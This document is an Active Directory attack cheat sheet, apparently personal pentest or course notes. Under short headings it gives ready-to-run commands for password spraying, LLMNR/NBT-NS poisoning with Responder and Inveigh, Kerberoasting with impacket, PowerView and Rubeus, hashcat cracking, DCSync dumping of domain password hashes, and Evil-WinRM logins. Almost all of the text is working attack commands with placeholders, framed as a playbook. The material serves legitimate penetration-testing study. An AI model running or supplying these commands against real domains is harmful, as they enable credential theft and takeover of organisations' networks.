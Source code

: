 # Password spray
### Kerbrute password spray
``` bash
kerbrute passwordspray -d <DOMAIN> --dc <IP> valid_users.txt  <PASSWD>
```
### CrackMapExec - Passwd Spray
``` bash
sudo crackmapexec smb <IP> -u valid_users.txt -p <PASSWD> | grep +
#After getting hits with opur attack, validate creds againts DC
sudo crackmapexec smb <IP> -u <USERNAME> -p <PASSWD>
```
### Internal password Spray - Linux
``` bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%<PASSWD>" -c "getusername;quit" <IP> | grep Authority; done
```
### Internall Password Spray - Win
``` powershell
#https://github.com/dafthack/DomainPasswordSpray
#Download with powershell: Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1" -OutFile "DomainPasswordSpray.ps1"
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
# LLMNR/NBT-NS Poisoning
Man-in-the-middle that captures usernames and password hashes in network
### LLMNR/NBT-NS Poisoning - Linux
```bash
#Kali
#generates report to /usr/share/responder/logs
sudo responder -I <IP> -A
#cannot be used with pass-the-hash so need to crack hashes offline
#crack hashes with hashcat in 5600 mode
hashcat -m 5600 <hash> /usr/share/wordlists/rockyou.txt
#IF HASHCAT FAILS RUN FOLLOWING CMD TO CLEAN THE HASH:
#cat hash.txt | tr -d '\n\r\t ' > cleaned_hash.txt
```
### LLMNR/NBT-NS Poisoning - Windows
``` powershell
#using inveigh.exe https://github.com/Kevin-Robertson/Inveigh
.\inveigh.exe
#after succesfull capture show options:
#HELP
#Get NTLM2Unique usernames and hashes:
GET NTLMV2UNIQUE
```
# Kerberoasting
Get SPN tickets and crack offline
### Kerberoasting with GetUserSPNs.py (KALI)
``` bash
#Requires username and password of domain user
#List SPN Accounts with GetUserSPNs.py
impacket-GetUserSPNs.py -dc-ip <IP> <DOMAIN>/<USERNAME>
#Get all TGS Tickets
impacket-GetUserSPNs.py -dc-ip <IP> <DOMAIN>/<USERNAME> -request
#Get single accounts TGS ticket and write to file for offline cracking
impacket-GetUserSPNs.py -dc-ip <IP> <DOMAIN>/<USERNAME> -request-user <ACCOUNT_NAME> 
-outputfile <OUTPUT_FILE>
#Crack with hashcat mode 13100
hashcat -m 13100 <HASH_FILE> /usr/share/wordlists/rockyou.txt 
#after succesfull crack, test authentication against DC
sudo crackmapexec smb <DC-IP> -u <USERNAME> -p <PASSWD>
```
### Kerberoasting (WINDOWS) with powerview
``` powershell
#https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/README.md
#Import module
Import-Module .\PowerView.ps1
#Get accounts and SPNs
Get-DomainUser * -spn | select samaccountname, serviceprincipalname
#Get hashes from specific account
Get-DomainUser -Identity <ACCOUNT> | Get-DomainSPNTicket -Format Hashcat
#(optional) or just get all the hashes from all accounts and export to CSV file
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
#if needed fix hash format:
#cat hash.txt | tr -d '\n' | tr -d ' ' > fixed-hash.txt or jusr get the csv which is in correct format
#Crack with hashcat mode 13100
hashcat -m 13100 <HASH_FILE> /usr/share/wordlists/rockyou.txt 
#after succesfull crack, test authentication against DC
sudo crackmapexec smb <DC-IP> -u <USERNAME> -p <PASSWD>
#the we can use PSCredential Object for movement (Check Lateral Movement tab)
```
### Kerberoasting (WINDOWS) with Rubeus
``` powershell
#https://github.com/GhostPack/Rubeus
#get high-value targets
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
#Crack with hashcat mode 13100
hashcat -m 13100 <HASH_FILE> /usr/share/wordlists/rockyou.txt 
#after succesfull crack, test authentication against DC
sudo crackmapexec smb <DC-IP> -u <USERNAME> -p <PASSWD>
```
# DCSync
Steal AD password Db by using the built-in `Directory Replication Service Remote Protocol`. Requires user with DCSync Privileges
``` bash
#Kali
#Extract NTLM Hashes and Kerberos Keys Using secrets
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc <DOMAIN>/<USERNAME>@<IP> 
# You can Check user that has this option enabled. DCSync will provide these creds in cleartext (optional?) Powershell:
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
# Evil-WinRM
``` bash
#Connect to target with Evil-WinRM and valid creds
evil-winrm -i <IP> -u <USER>
```
